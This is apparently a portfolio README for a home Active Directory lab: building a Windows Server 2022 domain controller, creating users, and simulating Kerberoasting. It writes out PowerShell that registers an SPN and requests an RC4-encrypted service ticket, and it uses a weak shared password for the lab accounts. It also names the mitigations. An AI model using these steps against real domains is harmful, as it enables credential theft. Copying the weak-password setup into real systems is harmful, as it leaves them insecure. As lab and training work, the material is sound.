


# Project 4: Active Directory Lab & Kerberoasting Simulation

## Overview

Built a Windows Server 2022 Domain Controller from scratch, configured the
jenkslab.local domain, created domain user accounts, and simulated a
Kerberoasting attack by requesting a Kerberos service ticket for an account
with a registered Service Principal Name (SPN). Mapped the attack to MITRE
ATT&CK T1558.003.

## Architecture

| Component | Role | IP |
|---|---|---|
| Wazuh Manager | SIEM + XDR | 192.168.1.48 |
| Win10-Endpoint | Victim host | 192.168.1.65 |
| Windows-Server-2022 (JENKSOFFICE) | Domain Controller | 192.168.1.118 |

- **Domain:** jenkslab.local
- **NetBIOS:** JENKSLAB
- **Hypervisor:** Oracle VirtualBox 7.x on Windows 11 host (16GB RAM)

## Steps Taken

### 1. Built the Domain Controller
- Downloaded Windows Server 2022 ISO (180-day evaluation) from Microsoft
- Created VM in VirtualBox: 2GB RAM, 2 vCPU, 50GB disk
- Fixed unattended install error by removing auto-generated .viso and
  attaching real ISO manually
- Set computer name to **JENKSOFFICE** via SConfig
- Installed AD Domain Services:
```powershell
Install-WindowsFeature -Name AD-Domain-Services -IncludeManagementTools
```
- Promoted to Domain Controller:
```powershell
Install-ADDSForest -DomainName "jenkslab.local" -DomainNetbiosName "JENKSLAB" -InstallDns
```

### 2. Created Domain Users
```powershell
New-ADUser -Name "John Smith" -SamAccountName "jsmith" `
  -UserPrincipalName "jsmith@jenkslab.local" `
  -AccountPassword (ConvertTo-SecureString "Password123!" -AsPlainText -Force) `
  -Enabled $true

New-ADUser -Name "Jane Doe" -SamAccountName "jdoe" `
  -UserPrincipalName "jdoe@jenkslab.local" `
  -AccountPassword (ConvertTo-SecureString "Password123!" -AsPlainText -Force) `
  -Enabled $true
```
Verified with:
```powershell
Get-ADUser -Filter * | Select Name, SamAccountName
```

### 3. Simulated Kerberoasting (MITRE ATT&CK T1558.003)

**Step 1 — Registered an SPN on jsmith:**
```powershell
Set-ADUser -Identity jsmith -ServicePrincipalNames @{Add="HTTP/jenkslab.local"}
```
Verified:
```powershell
Get-ADUser -Identity jsmith -Properties ServicePrincipalNames | Select -ExpandProperty ServicePrincipalNames
```
Output: `HTTP/jenkslab.local`

**Step 2 — Requested the Kerberos service ticket:**
```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "HTTP/jenkslab.local"
```

**Step 3 — Verified ticket in memory:**
```powershell
klist
```
Output confirmed ticket #1:
- Server: `HTTP/jenkslab.local @ JENKSLAB.LOCAL`
- Encryption: **RSADSI RC4-HMAC(NT)** — the crackable format targeted in real Kerberoasting attacks

## MITRE ATT&CK Mapping

| Technique | ID | Description |
|---|---|---|
| Kerberoasting | T1558.003 | Requested Kerberos service ticket for SPN-registered account to extract crackable RC4 hash |
| Valid Accounts | T1078 | Used domain user account jsmith with registered SPN as attack target |

## Key Findings

- RC4-HMAC(NT) encryption on the service ticket confirms the account is
  vulnerable to offline hash cracking
- In a real attack, the extracted hash would be run through hashcat or
  John the Ripper to recover jsmith's plaintext password
- Weak passwords on service accounts are the core risk — mitigation is
  strong passwords (25+ chars) and using AES-256 encryption for SPNs

## Blocker Encountered

- Win10-Endpoint runs **Windows 10 Home** which does not support domain join
- Attempted edition upgrade failed (activation error 0x803fa067)
- **Workaround:** Demonstrated Kerberoasting directly on the DC — all
  MITRE ATT&CK T1558.003 objectives met without needing domain-joined client

## Skills Demonstrated

- Windows Server 2022 installation and configuration
- Active Directory Domain Services deployment
- Domain Controller promotion (Install-ADDSForest)
- Domain user creation and management (New-ADUser, Get-ADUser)
- Service Principal Name (SPN) registration
- Kerberos ticket request simulation
- MITRE ATT&CK T1558.003 Kerberoasting technique
- PowerShell AD module commands

## Screenshots





